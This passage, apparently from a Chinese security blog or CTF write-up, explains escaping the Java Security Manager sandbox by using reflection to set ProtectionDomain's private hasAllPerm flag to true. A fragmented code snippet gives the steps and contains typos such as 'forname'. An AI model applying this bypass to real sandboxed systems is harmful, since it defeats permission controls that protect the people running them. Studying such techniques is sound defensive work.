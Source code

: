 即反射权限和访问私有成员的权限，也就是说可能有很多种反射的姿势可以利用

这里我们需要通过反射修改 Java Security Manager 检查的 `ProtectionDomain`，其权限原本写在 `security.policy`中，没有写代表没有权限，但是我们可以通过反射去修改其属性，让其拥有权限

具体原理参考博客，这里直接给实现

在 `java.security.ProtectionDomain`中，有这么一个变量： `java.security.ProtectionDomain#hasAllPerm`

![图片](assets/1709279808-b101a602110026c047ec7143e4bc3100.png)

其用于标记该类是否拥有所有权限，我们现在的任务就是通过反射将其修改为 true，其实现方式若如下：

```bash
// 1. 获取类
Class
 clz
=

Class
.
forname
(
"xxx"
);
// 2. 获取其 ProtectionDomain
// 3. 通过反射获取 ProtectionDoamin 的 hasAllPerm 字段
Field
 field
=
 clz
.
getProtectionDomain
().
getClass
().
getDeclaredField
(
"hasAllPerm"
);
// 4. 设置其可修改
field
.
setAccessible
(
true
);
// 5. 将 hasAllPerm 设置为 true
field
.
set
(
clz
.
getProtectionDomain
(),

true
);
```
